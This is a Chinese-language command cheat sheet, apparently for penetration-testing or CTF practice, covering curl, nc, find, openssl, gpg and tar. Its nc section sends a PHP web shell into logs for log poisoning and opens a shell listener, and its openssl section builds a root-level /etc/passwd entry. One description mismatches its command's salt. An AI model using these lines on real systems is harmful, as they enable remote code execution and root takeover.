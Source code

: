 # Utility

## Curl
查看响应头
```sh
curl -I 192.168.152.72
```

修改 UA (User-Agent)
```sh
sudo curl -s --user-agent GoogleBot http://192.168.225.14/robots.txt -v
```

`-v` verbose ，显示详细内容

发送 POST 请求
```sh
curl -X POST "http://139.224.130.183:32960/" -d "c=1024abc"
```

设置 Cookie
```sh
curl -b "session_id=123456" https://example.com
```

用 curl 修改X-Forwarded-For头
```sh
curl -H "X-Forwarded-For: 123.45.67.89" http://example.com
```

修改 Referer 头
```sh
curl -H "Referer: http://example.com" http://example.org
```

## Nc
`nc` 传小马，配合日志投毒
```sh
nc 192.168.218.72 80

GET /<?php system($_GET['cmd']); ?>
```

`nc`监听端口 4444
```sh
nc -nvlp 4444
```

## Find
```sh
find / -name test.py 2>/dev/null 
```

## Openssl
通常用于创建 `/etc/passwd` 文件中存储的加密密码。
```sh
openssl passwd -1 -salt passion 123456
```
这条命令将输出一个使用 MD5 加密并带有盐值 `haruhi` 的加密密码。输出的格式通常是
这种生成的加密密码可以用在一些系统认证配置中，例如 Linux 系统的 `/etc/shadow` 文件中保存用户的密码信息。
配合 `/etc/passwd` 食用更佳
```sh
echo 'passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash' > passion
```

## GPG

A tool suitable for email encryption and signature, but also for data encryption.

Generate key
```sh
gpg --full-gen-key
```

It will create two private keys in your `~/.gnupg/private-keys-v1.d` directory.

Import key and decrypt the message
```sh
gpg --import backup.key
gpg --decrypt confidential_message.gpg
```

## Tar

解压
```sh
tar xvzf rockyou.tar.gz
```